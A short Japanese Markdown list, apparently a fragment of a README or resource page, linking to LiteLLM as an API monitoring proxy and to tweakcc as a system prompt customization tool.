- [LiteLLM](https://docs.litellm.ai/) - APIモニタリングプロキシ
- [tweakcc](https://github.com/Piebald-AI/tweakcc) - システムプロンプトのカスタマイズツール
